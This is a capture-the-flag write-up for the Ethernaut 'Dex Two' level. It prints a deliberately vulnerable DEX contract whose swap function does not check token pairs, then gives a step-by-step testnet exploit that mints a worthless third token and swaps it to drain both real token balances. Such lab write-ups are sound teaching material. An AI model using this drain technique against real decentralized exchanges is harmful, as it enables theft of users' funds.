

# 23 - Dex Two

## Challenge

This level will ask you to break `DexTwo`, a subtlely modified `Dex` contract from the previous level, in a different way. You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level. You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.

Things that might help: How has the swap method been modified?

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## Summary

We begin by diffing the `swap` between the two contracts.



`getSwapAmount` is exactly the same as `getSwapPrice`, it is just a name change. We can see the only difference is that `DexTwo` has removed the check

```js
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

`swap` will not check that the swap is necessarily between `token1` and `token2`. Well, this is a really bad thing, and we can exploit it for profit.

Consider the following scenario: we can create an attack contract that has a lot of tokens `token3`. We can apply similar tricks from `Dex` and drain both `token1` and `token2` by swapping with `token3` (which `swap` does not check against). We can drain both separately to achieve this. Below is an illustration of the workflow. Assume our attack contract initially has 400 `token3`.

```
// initial state
Dex token 1: 100
Dex token 2: 100
Dex token 3: 0
Usr token 1: 10
Usr token 2: 10
Usr token 3: 400

// Usr send 100 token3 to Dex
Dex token 1: 100
Dex token 2: 100
Dex token 3: 100
Usr token 1: 10
Usr token 2: 10
Usr token 3: 300

// Now all ratios in Dex are 1:1. We can drain token 1 by swapping with token 3
Dex token 1: 0   (-100)
Dex token 2: 100 
Dex token 3: 200 (+100)
Usr token 1: 110 (+100)
Usr token 2: 10
Usr token 3: 200 (-100)

// Now we need 200 token3 to get 100 token2. Swap again:
Dex token 1: 0
Dex token 2: 0   (-100)
Dex token 3: 400 (+200)
Usr token 1: 110
Usr token 2: 110 (+100)
Usr token 3: 0   (-200)
```

At this stage we have drained both `token1` and `token2` just because we had a third random token! Manipulating the ratios is truely powerful.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x49b14FE66d7910552c5d8EeF184d317d5a21A361'
```

We are going to deploy an `Attack` contract that mints all 400 `token3` upon contract construction. To do this, official documentation's [Constructing an ERC20 Token Contract](https://docs.openzeppelin.com/contracts/4.x/erc20#constructing-an-erc20-token-contract) has the template and we can shamelessly copy it :)

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract AttackToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("AttackToken", "token3") {
        _mint(msg.sender, initialSupply);
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['AttackToken']
>>> attackContract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> attackContract.deploy(400) # 400 token3
2023-07-03 15:30:53.623 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-07-03 15:31:25.543 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x6F7CD1620d470f1971B752325C640e577c4fBA01
```

Now we need to approve `token3` transaction, and also transfer 100 `token3` to `DexTwo`.

```py
>>> attackContract.functions.approve(contract_addr, 200).send_transaction()
2023-07-03 15:34:37.898 | INFO     | cheb3.contract:send_transaction:236 - (0x6F7CD1620d470f1971B752325C640e577c4fBA01).approve transaction hash: 0x6b1424d2f6fb903f8c0c545df83a6a96ab0ba2b289d29f5e2fe2a48a5786777a
>>> attackContract.functions.transfer(contract_addr, 100).send_transaction()
2023-07-03 15:38:59.242 | INFO     | cheb3.contract:send_transaction:236 - (0x6F7CD1620d470f1971B752325C640e577c4fBA01).transfer transaction hash: 0xb90c2a68ee679073b1a6947a8763e359b27fad020b6c3622e02d3384cf4abff5
```

What happens next are almost identical to `Dex` level exploit.

```js
> t1 = await contract.token1()
'0x087C7412a5409212e7b6FBE534dA06e9B38E215C'
> t2 = await contract.token2()
'0x6CBE549c956B0f2E3e4D8C4eF6b202AC9d869D53'
> t3 = '0x6F7CD1620d470f1971B752325C640e577c4fBA01' // deployed attack contract
'0x6F7CD1620d470f1971B752325C640e577c4fBA01'
> await contract.swap(t3, t1, 100)
{tx: '0x0e470a75fb7ff7a592a788efd1a58eb5b66f5accea319a073e479004d6935733', receipt: {…}, logs: Array(0)}
> await contract.swap(t3, t2, 200)
MetaMask - RPC Error: execution reverted: ERC20: insufficient allowance {code: -32603, message: 'execution reverted: ERC20: insufficient allowance', data: {…}}
```

Wait, what happened? Well, I made a small mistake in the approval amount. Recall I did approve 200 `token3` but here we actually need 100+200... I have to re-approve some amount at this point. Glad it's test token.

```js
> await contract.swap(t3, t2, 200)
{tx: '0x90c94ce50e232d6a9b83e4c227d99636fc4b09763076450e2e6e7997a8b0f1c2', receipt: {…}, logs: Array(0)}
> await contract.balanceOf(t1, instance).then(v => v.toString())
'0'
> await contract.balanceOf(t2, instance).then(v => v.toString())
'0'
```

Neat. Finally, submit the instance to pass the level.

## Afterword

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior. Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.